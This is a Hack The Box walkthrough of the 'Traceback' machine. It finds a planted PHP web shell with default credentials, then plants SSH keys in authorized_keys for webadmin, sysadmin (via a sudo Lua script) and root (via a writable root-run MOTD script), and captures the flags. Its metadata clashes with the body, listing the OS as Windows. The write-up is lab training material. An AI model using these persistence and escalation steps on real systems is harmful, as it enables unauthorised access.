



+++
title = "Traceback"
date = "2023-11-25"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2021-10-02

**Created by**: [MrR3boot](https://app.hackthebox.com/users/13531)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.30`, while the target machine's IP address will be `10.10.10.181`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Traceback using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.181 -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.181 -p 22,80 -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.181 -p 22,80 -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http
|_http-title: Help us
<SNIP>
```

The output of these scripts is not really useful, we only learned that the default web page on the Apache server is titled `Help us`.

Let's move on to the exploration of the web server, since we have no other option!

## Apache (port `80/tcp`)

If we browse to `http://10.10.10.181/`, we see this web page:


Well... I certainly didn't expect that! So apparently, this website has been defaced by `Xh4H` (the creator of this box), and there's a backdoor somwhere? I guess that we're supposed to find it!

### Source code review

The first thing we can do is to check if the source code of this web page contains anything that might leak the location of this mysterious backdoor.

```html
<SNIP>
<center>
    <h1>This site has been owned</h1>
    <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
    <h3> - Xh4H - </h3>
    <!--Some of the best web shells that you might need ;)-->
</center>
<SNIP>
```

There's indeed a comment, which indicates that the backdoor is a web shell, but it doesn't disclose the location of this web shell.

### Directory fuzzing

Let's see if we can find the web shell!

```sh
❯ ffuf -v -c -u http://10.10.10.181/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php
```

```
<SNIP>
[Status: 200, Size: 1113, Words: 109, Lines: 45, Duration: 23ms]
| URL | http://10.10.10.181/
    * FUZZ: 

[Status: 403, Size: 291, Words: 22, Lines: 12, Duration: 23ms]
| URL | http://10.10.10.181/.php
    * FUZZ: .php

[Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 24ms]
| URL | http://10.10.10.181/server-status
    * FUZZ: server-status
<SNIP>
```

Okay, so that's unsuccessful.

### OSINT

At this point, we could try to look for subdomains, but that would be pointless. `Xh4H` indicated that he left a backdoor 'for all the net', so it must be accessible from this domain. What if we search online for the comment we found in the HTML source code?

The first result is [this GitHub page](https://github.com/TheBinitGhimire/Web-Shells)! Its description is 'Some of the best web shells that you might need!', which is exactly the comment left by `Xh4H` on the HTML. That's probably not a coincidence!

If we scroll down the README section, we see that there are several PHP web shells. `Xh4H` must have used one of them! Let's add their names to `/workspace/webshells`.

```
alfav3-encoded.php
alfav4.1-decoded.php
alfav4.1-encoded.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
TwemlowsWebShell.php
wso2.8.5.php
```

### Webshell fuzzing

Now, let's use `ffuf` to see if one of these files exist on the server!

```sh
❯ ffuf -v -c -u http://10.10.10.181/FUZZ -w /workspace/webshells
```

```
[Status: 200, Size: 1261, Words: 318, Lines: 59, Duration: 1520ms]
| URL | http://10.10.10.181/smevk.php
    * FUZZ: smevk.php
```

We got a hit!

# Foothold (webshell)

Let's browse to `http://10.10.10.181/smevk.php`.



Unfortunately, we are asked for credentials... but `Xh4H` mentioned that this web shell was 'for all the net', so they must be easy to uncover.

## OSINT

According the the [GitHub source](https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/smevk.php), the default credentials for `smevk.php` are `admin`:`admin`. Let's try them!



It worked!

## SSH (port `22/tcp`)

This web shell is pretty cool, but I prefer real shells. Thanks to our previous scans, we know that Traceback accepts connections over SSH.

If we run `whoami`, we see that we are `webadmin`, and it turns out that this user has a folder in `/home`.

The goal is now to add our own SSH key to `/home/webadmin/.ssh/authorized_keys` so that we can connect to Traceback using SSH. This way, we'll have a much more stable shell!

First, I'll generate a SSH ed25519 key.

```sh
❯ ssh-keygen -t ed25519
```

```
Generating public/private ed25519 key pair.
<SNIP>
Your identification has been saved in /workspace/id_ed25519
Your public key has been saved in /workspace/id_ed25519.pub
<SNIP>
```

Now, let's add the public key to Traceback by executing this command on the web shell console (replace the public key with your own):

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICF8Vs9QFJ3VTFx5hxO0vISYAK1MiJdi5VUkFPq5zpIT" >> /home/webadmin/.ssh/authorized_keys
```

Now let's use our private key to connect as `webadmin` using SSH:

```sh
❯ ssh webadmin@10.10.10.181 -i /workspace/id_ed25519
```

```
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
<SNIP>
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

<SNIP>
webadmin@traceback:~$
```

Nice!

# Local enumeration

If we run `whoami`, we see that we got a foothold as `webadmin`.

## Distribution

Let's see which distribution Traceback is using.

```sh
webadmin@traceback:~$ lsb_release -a
```

```
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.3 LTS
Release:        18.04
Codename:       bionic
```

So this is Ubuntu 18.04, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is Traceback's architecture?

```sh
webadmin@traceback:~$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe Traceback is vulnerable to a kernel exploit?

```sh
webadmin@traceback:~$ uname -r
```

```
4.15.0-58-generic
```

Unfortunately, the kernel version is recent too.

# AppArmor

Let's list the applications AppArmor profiles:

```sh
webadmin@traceback:~$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
total 48
-rw-r--r--  1 root root 3194 Mar 26  2018 sbin.dhclient
-rw-r--r--  1 root root 2857 Apr  7  2018 usr.bin.man
-rw-r--r--  1 root root 1550 Apr 24  2018 usr.sbin.rsyslogd
-rw-r--r--  1 root root 1353 Mar 31  2018 usr.sbin.tcpdump
```

All of these profiles are classic.

## NICs

Let's gather the list of connected NICs.

```sh
webadmin@traceback:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:8b:56 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.181/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:8b56/64 scope global dynamic mngtmpaddr 
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:feb9:8b56/64 scope link 
       valid_lft forever preferred_lft forever
```

So there's only the loopback interface and the Ethernet interface.

## Hostname

What is Traceback's hostname?

```sh
webadmin@traceback:~$ hostname
```

```
traceback
```

Yeah I know, very surprising.

## Local users

Let's enumerate all the local users that have a console.

```sh
webadmin@traceback:~$ cat /etc/passwd | grep "sh$" | cut -d: -f1
```

```
root
webadmin
sysadmin
```

Interesting! So apart from us and `root`, there's also a `sysadmin` user. Maybe we'll have to get a shell as `sysadmin` to reach `root`?

## Local groups

Let's retrieve the list of all local groups.

```sh
webadmin@traceback:~$ getent group | cut -d: -f1 | sort
```

```
adm
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
games
gnats
input
irc
kmem
list
lp
lpadmin
mail
man
messagebus
mlocate
netdev
news
nogroup
operator
plugdev
proxy
root
sambashare
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
sysadmin
syslog
systemd-journal
systemd-network
systemd-resolve
tape
tty
users
utmp
uucp
uuidd
video
voice
webadmin
www-data
```

That's pretty classic.

Now let's see to which groups we currently belong.

```sh
webadmin@traceback:~$ groups
```

```
webadmin cdrom dip plugdev lpadmin sambashare
```

Unfortunately, there's nothing that we can abuse.

## Home folder

Let's check our home folder to see if it contains the user flag, or anything unusual.

```sh
webadmin@traceback:~$ ls -la ~
```

```
<SNIP>
drwxr-x--- 5 webadmin sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 4 root     root     4096 Aug 25  2019 ..
-rw------- 1 webadmin webadmin  105 Mar 16  2020 .bash_history
-rw-r--r-- 1 webadmin webadmin  220 Aug 23  2019 .bash_logout
-rw-r--r-- 1 webadmin webadmin 3771 Aug 23  2019 .bashrc
drwx------ 2 webadmin webadmin 4096 Aug 23  2019 .cache
drwxrwxr-x 3 webadmin webadmin 4096 Apr 22  2021 .local
-rw-rw-r-- 1 webadmin webadmin    1 Aug 25  2019 .luvit_history
-rw-rw-r-- 1 sysadmin sysadmin  122 Mar 16  2020 note.txt
-rw-r--r-- 1 webadmin webadmin  807 Aug 23  2019 .profile
drwxrwxr-x 2 webadmin webadmin 4096 Feb 27  2020 .ssh
```

We don't find the user flag. The `note.txt` file is intriguing though, let's see what is contains!

```sh
webadmin@traceback:~$ cat ~/note.txt
```

```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Apparently, the `sysadmin` user that we discovered earlier left a tool to 'practice Lua'. Okay.

## Command history

Let's check the history of commands ran by `webadmin`.

```sh
webadmin@traceback:~$ cat ~/.bash_history
```

```
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
rm privesc.lua
logout
```

That's interesting! It looks like `sysadmin` connected to this account to run `luvit` with a `privesc.lua` file. The name of this file is a big hint... we must be able to use `luvit` with a custom Lua script to escalate our privileges!

# Lateral movement (`luvit`)

The goal is now to write our SSH public key to `/home/sysadmin/.ssh/authorized_keys` in order to connect as `sysadmin`, just like we did for `webadmin`.

The following Lua script might do the trick.

```lua
authkeys = io.open("/home/sysadmin/.ssh/authorized_keys", "a")
authkeys:write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICF8Vs9QFJ3VTFx5hxO0vISYAK1MiJdi5VUkFPq5zpIT\n")
authkeys:close()
```

Let's save it in `privesc.lua` and run the same command that was previously ran.

```sh
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit privesc.lua 
```

We receive no output, which is totally normal. If it worked, we should be able to connect to Traceback as `sysadmin`.

```sh
❯ ssh sysadmin@10.10.10.181 -i id_ed25519
```

```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

<SNIP>
$
```

And it worked! Fantastic!

This shell seems quite limited though, not as interactive as SSH shells usually are. That's strange. Let's execute a Python one-liner to transform it into an interactive one:

```sh
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
sysadmin@traceback:~$
```

That's much better!

# Local enumeration

## Local groups

Let's see which groups we belong to.

```sh
sysadmin@traceback:~$ groups
```

```
sysadmin
```

Well, we actually only belong to the primary one.

## Home folder

This time, there's a `user.txt` flag in our home folder. Let's print its content to get the user flag!

```sh
sysadmin@traceback:~$ cat ~/user.txt
```

```
f4f75888b4faa0636c7b5559b41b9e0d
```

But apart from the flag and the `luvit` binary, there's nothing out of the ordinary.

## Command history

Let's check if `sysadmin` ran interesting command.

```sh
sysadmin@traceback:~$ cat ~/.bash_history
```

Nothing.

## Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
sysadmin@traceback:~$ sudo -l
```

```
[sudo] password for sysadmin:
```

Apparently we have to know `sysadmin`'s password to access this information, but we don't know it...

## Listening ports

Let's see if any TCP local ports are listening for connections.

```sh
sysadmin@traceback:~$ ss -tln
```

```
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         128                    [::]:22                  [::]:*
```

Apparently, there is a service listening on port `53/tcp`. What about UDP?

```sh
sysadmin@traceback:~$ ss -uln
```

```
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
UNCONN   0         0             127.0.0.53%lo:53               0.0.0.0:*
```

There's also a service listening on port `53/udp`. That's probably the same service.

Let's check `/etc/services` for the services associated with these ports.

```sh
sysadmin@traceback:~$ cat /etc/services | grep -E '\b53/tcp\b|\b53/udp\b'
```

```
domain          53/tcp                          # Domain Name Server
domain          53/udp
```

So these ports are used by a DNS!

I won't explore it since this is probably a rabbit hole. It's an easy box after all! But let's keep that in mind and come back to it if we don't find another privilege escalation path.

## Processes

Let's use `pspy` to see which processes are running on Traceback.

```sh
sysadmin@traceback:~$ ./pspy
```

```
<SNIP>
2023/11/25 02:01:01 CMD: UID=0     PID=16173  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
<SNIP>
2023/11/25 02:02:01 CMD: UID=0     PID=16180  | /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
<SNIP>
```

That's odd... it looks like a cronjob that executes every minute. It sleeps for 30 seconds, and then copies the content of `/var/backups/.update-motd.d/` into `/etc/update-motd.d/`.

## MOTD feature

This directory is related to the Message of the Day (MOTD) feature. The MOTD is a customizable message that is displayed to users when they log in to a system.

Now that I think about it, when we connected through SSH, we received a custom MOTD. Maybe there's something about that that we could abuse?

Let's check the content of `/var/backups/.update-motd.d/`.

```sh
sysadmin@traceback:~$ ls -la /var/backups/.update-motd.d/
```

```
<SNIP>
-rwxr-xr-x 1 root root  981 Aug 25  2019 00-header
-rwxr-xr-x 1 root root  982 Aug 27  2019 10-help-text
-rwxr-xr-x 1 root root 4264 Aug 25  2019 50-motd-news
-rwxr-xr-x 1 root root  604 Aug 25  2019 80-esm
-rwxr-xr-x 1 root root  299 Aug 25  2019 91-release-upgrade
```

This folder contains a bunch of files owned by `root`. We can't edit them though.

If we print the content of `00-header`, we see that this is indeed the message we got when we connected using SSH.

```sh
sysadmin@traceback:~$ cat /var/backups/.update-motd.d/00-header
```

```
<SNIP>
echo "\nWelcome to Xh4H land \n"
```

So the `/etc/update-motd.d/` directory should contain the same files.

```sh
sysadmin@traceback:~$ ls -la /etc/update-motd.d/
```

```
<SNIP>
-rwxrwxr-x  1 root sysadmin  981 Nov 25 02:11 00-header
-rwxrwxr-x  1 root sysadmin  982 Nov 25 02:11 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Nov 25 02:11 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Nov 25 02:11 80-esm
-rwxrwxr-x  1 root sysadmin  299 Nov 25 02:11 91-release-upgrade
```

This is indeed the same output as for the `/var/backups/.update-motd.d/` folder, except that the group is now set to `sysadmin`. This means that we can edit these files, and that they will be executed as `root`!

# Privilege escalation (MOTD)

Let's edit the `00-header` file in `/etc/update-motd.d/` to add our SSH public key to `/root/.ssh/authorized_keys`.

```sh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICF8Vs9QFJ3VTFx5hxO0vISYAK1MiJdi5VUkFPq5zpIT" >> /root/.ssh/authorized_keys
```

Now, we just need to connect over SSH once again to trigger the MOTD and execute this file! Keep in mind that these files are reset every minute though, so we must be quick.

```sh
❯ ssh sysadmin@10.10.10.181 -i id_ed25519 -f -N
```

Now let's see if it worked:

```sh
❯ ssh root@10.10.10.181 -i id_ed25519
```

```
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

<SNIP>
root@traceback:~#
```

And it did! We are now `root`!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it in our home folder!

```sh
root@traceback:~# cat ~/root.txt
```

```
df341702627d6b3420892b2b6d186ac0
```

# Afterwords



That's it for this box! The foothold was easy to obtain, although having the idea of using OSINT to find the reverse shell was a bit hard to come by. The path to `root` was fairly easy afterwards.

Thanks for reading!
